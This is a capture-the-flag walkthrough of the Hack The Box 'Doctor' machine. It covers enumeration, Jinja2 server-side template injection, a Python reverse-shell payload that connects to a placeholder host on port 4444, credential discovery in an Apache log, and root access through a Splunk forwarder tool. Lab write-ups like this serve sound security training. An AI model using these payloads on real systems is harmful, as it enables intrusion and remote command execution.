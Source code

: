 # User access

## Scan

As always I started by running nmap on the target IP in search of open ports

![](/doctor/img/nmap.PNG)

This is a Linux machine and ports 22, 80 and 8089 are open, this is more than enough. I proceeded by visiting the webserver on port 80 and running gobuster looking for some useful directories.

## Enumeration

There's nothing interesting enumerating the webserver's directories, I used a small wordlist, you can try something bigger but I didn't need this anyway.

![](/doctor/img/dirb.PNG)

## Webserver

This is the website homepage, there is nothing really interesting except for a domain named **doctors.htb**

![](/doctor/img/webserver.PNG)

## Virtual host

I added _doctors.htb_ into my **/etc/hosts** file and visited the URL again, now there's **actually** some interesting: a login page!

![](/doctor/img/login.PNG)

At this point I thought that I might have found something more useful enumerating the directories. So I ran gobuster once again.

![](/doctor/img/dirb-vhost.PNG)

Nothing out of the ordinary, apparently. I noticed an _archive_ folder and explored in the URL. Nothing happens but it's quite suspicious.

## Messing up with login/register page

I've tried some simple SQL injection but nothing worked, so I started looking around for other pages, I first checked the register page. Is a simple form, I didn't find anything interesting, XSS doesn't work and there are no exploitable file uploads either. At this point I tried to register a new user.

At this point you are redirected to the homepage, there is a section when you can submit a post with a title and a content. The post will be shown on the homepage.

![](/doctor/img/board.PNG) ![](/doctor/img/homepage.PNG)

I think there might be a vulnerability here somewhere, so I documented myself about how exploiting form submissions and I found an interesting document about **Server-side Template Injection** (SSTI). You can find a nicely documented methodology on [this repo](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection).

Now we might have a initial foothold on what to do on this machine.

## Exploiting the template

By looking the graph in the previous repo (under the "Methodology" section) there is a nice [flowchart](https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/Server%20Side%20Template%20Injection/Images/serverside.png) where we notice how we can exploit a template by injecting some values in order to find if they are processed and, at the end, discover which framework is running under the webserver.

The real question now is: **where should the expressions be evaluated?** Looking around I remembered the **archive** directory I found while enumerating. So I wrote a very simple payload based on the flowchart and checked out the archive directory. Bingo!

![](/doctor/img/example-payload.PNG)  

This was the result of the expression:

![](/doctor/img/example-payload2.PNG)

After a couple of attempts following the flowchart I found that the framework under the hood is Jinja2, which is written in Python. This is a very useful information as I'm now aware of the language I have to use if I want to write and run payloads.

What I had to do was to write a python payload in order to open a shell on my machine.

## Writing the payload

This is honestly the part where I struggled the most. Mostly because I didn't know the Jinja engine. The first part was to write a python script in order to run simple commands, so I tried things like {{import os; os.system("whoami");}} but nothing worked. Since I was stuck on this part I asked help to users on HTB chats and forums for a nudge. I found this piece of conversation to be somehow helpful.

![](/doctor/img/chat.PNG)

I was actually missing that the script were ran under a backend engine, so I needed to "crawl" into the engine context in order to require the objects and the methods that I needed to run my payload.

While digging on the internet I found an interesting article about [SSTI on Jinja2](https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/). Here you can find a simple explanation about MRO (which is a way you can exploit in order to run your payload) and the global variables stored into jinja's context. In particular we have the **request** object, from which we can write something like this:

{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}

<table style="border: 1px;"></table>

From this stub we can write the payload we need in order to open a shell on our machine. Some basic socket code did the trick for me. This was the code I used:

```python
import socket, os, pty  
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) # create a basic socket with ipv4 addresses and TCP protocol  
s.connect(("x.x.x.x", 4444)) # connect to your local machine using port 4444  
os.dup2(s.fileno(), 0) # duplicate the socket descriptor on your standard input (0), standard output (1) and standard error (2), in order to display commands output on your terminal  
os.dup2(s.fileno(), 1)  
os.dup2(s.fileno(), 2)  
pty.spawn("/bin/sh") # spawn a shell on your terminal  
```

put this code (without the # comments) in the popen() function, calling the script using "python3 -c". This should be your final payload:

```
{{request.application.__globals__.__builtins__.__import__('os').popen('python -c '\ import socket, os, pty; s = socket.socket(socket.AF_INET, socket.SOCK_STREAM); s.connect(("x.x.x.x", 4444)); os.dup2(s.fileno(), 0); os.dup2(s.fileno(), 1); os.dup2(s.fileno(), 2); pty.spawn("/bin/sh"); \'').read()}}
```

## Shell and privesc

Obviously no shell will spawn unless you put your machine on listening on an external port, so I ran netcat in listening mode on port 4444. Ran the URL on the /archive endpoint, a shell will spawn on your terminal!

![](/doctor/img/shell.PNG)

By enumerating on the machine we can find some useful information. There are 2 users, _web_ and _shaun_, and we are logged as the first one. As web, we can't do anything except looking for interesting files. I followed [this guide](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/) for basic privesc commands and in the /var/log/apache2/ directory I found a file named "backup". By displaying its content on screen I finally found a password!

![](/doctor/img/user_password.PNG)

...Or at least it looks like one. The first thing I tried is to switch from web to shaun. So I used the _su_ command using the password I found, aaaaand we are in! Right now we can search for the user.txt flag, it's located in the /home/shaun directory, so we cat the content and we finally have user.

![](/doctor/img/user-txt.PNG)

# From user to root

I found this part easier than user, I didn't had much informations, but there was one service that I didn't even checked: **the splunk service on port 8089**. Since I didn't found nothing useful by navigating on the service via browser, I searched on the internet for a privesc tool and I found [this one](https://github.com/cnotin/SplunkWhisperer2) that exploits misconfigurations on the service. Before using this tool, I suggest to read [here](https://airman604.medium.com/splunk-universal-forwarder-hijacking-5899c3e0e6b2) in order to fully comprehend the vulnerability you are exploiting.

By the way, in order to use this tool, I cloned the repository, opened another terminal window and ran nc on port 9999 and used the PySplunkWhisperer_remote script following the usage instructions. The script did everything for me, and on the netcat window I had a shell as root!

![](/doctor/img/root_shell.PNG)  

![](/doctor/img/root_shell2.PNG)